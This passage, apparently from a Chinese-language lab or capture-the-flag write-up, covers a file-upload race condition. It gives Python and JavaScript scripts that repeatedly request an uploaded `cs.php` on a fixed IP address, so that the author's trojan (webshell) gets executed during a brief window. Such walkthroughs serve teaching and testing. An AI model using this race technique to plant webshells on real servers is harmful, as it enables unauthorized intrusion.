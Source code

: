 我们写一个脚本来访问 `cs.php`，只要有一瞬间访问得到，那我们的木马就注入成功了：

这是 Python 版的脚本：

```python
import requests

url = "http://175.178.126.31:8082/upload/cs.php"

while True:

    html = requests.get(url)

    if html.status_code == 200:

        print("OK")

        break
```

这是 JavaScript 版的脚本：

```js
// 在 Node.js 18+ 中，fetch 是全局可用的，不需要额外安装
const url = "http://175.178.126.31:8082/upload/cs.php";

async function checkServer() {
  while (true) {
    try {
      // 使用 fetch 发起 GET 请求
      const response = await fetch(url);

      // fetch 不会在 HTTP 错误状态上 reject, 只有网络错误或请求被阻止时才会 reject.
      // 因此，我们需要通过检查 ok 状态来抛出错误。
      if (response.ok) {
        console.log("OK");
        break;  // 如果响应是 200-299 之间，表示成功，退出循环
      } else {
        // 如果 HTTP 状态码不是成功的，抛出错误以被捕获
        throw new Error(`HTTP Error: ${response.status}`);
      }
    } catch (error) {
      // 打印错误信息
      console.error(`An error occurred: ${error}`);
    }
  }
}

// 调用函数
checkServer();
```

执行 JS 版脚本： 

![](https://img.wukaipeng.com/2023/10/25-083100-image-20231025083100442.png)
